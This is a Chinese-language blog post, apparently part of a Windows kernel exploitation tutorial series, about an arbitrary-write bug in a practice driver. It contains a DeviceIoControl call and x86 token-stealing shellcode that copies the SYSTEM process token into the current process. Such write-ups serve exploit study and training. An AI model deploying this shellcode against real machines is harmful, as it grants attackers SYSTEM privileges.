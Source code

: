 

+++

  author = "2st"
  title = "Windows Kernel Exploit 2-ArbitraryWrite"
  date = "2020-06-17T01:06:05+08:00"
  description = "NULL"
  tags = [
      "kernel","exploit"

]
categories = [
    "Windows","pwn"
]
aliases = ["migrate-from-jekyl"]
favorite = true

+++

友好简单的Windows内核漏洞分析2（因为考虑将此系列投稿到某平台，所以暂时将内容挂起，交流请私戳）



### 0x1 前置知识

ArbitraryWrite：攻击者可控4byte的地址指针和4byte的内容指针，任意写，，，emmmmm，，，R0里这么搞会出大问题，这个漏洞点没什么说的，但是漏洞利用过程中遇到了一些有意思的利用链。

### 0x2 API？

1. 传输想要写的Addr以及Content

```c
#define Write_What_Where  0x22200B
DeviceIoControl(hDevice,Write_What_Where,&exploit,sizeof(WRITE_WHAT_WHERE),NULL,0,&lpbReturn,NULL);
```

2. shellcode，根据调试，需要pop三个参数保持堆栈平衡。

```C
static VOID ShellCode()
{
	_asm
	{
		//int 3
		pop edi	// the stack balancing
		pop esi
		pop ebx
		pushad
		mov eax, fs: [124h]		// Find the _KTHREAD structure for the current thread
		mov eax, [eax + 0x50]   // Find the _EPROCESS structure
		mov ecx, eax
		mov edx, 4				// edx = system PID(4)

		// The loop is to get the _EPROCESS of the system
		find_sys_pid :
		mov eax, [eax + 0xb8]	// Find the process activity list
		sub eax, 0xb8    		// List traversal
		cmp[eax + 0xb4], edx    // Determine whether it is SYSTEM based on PID
		jnz find_sys_pid

		// Replace the Token
		mov edx, [eax + 0xf8]
		mov[ecx + 0xf8], edx
		popad
		//int 3
		ret
	}
```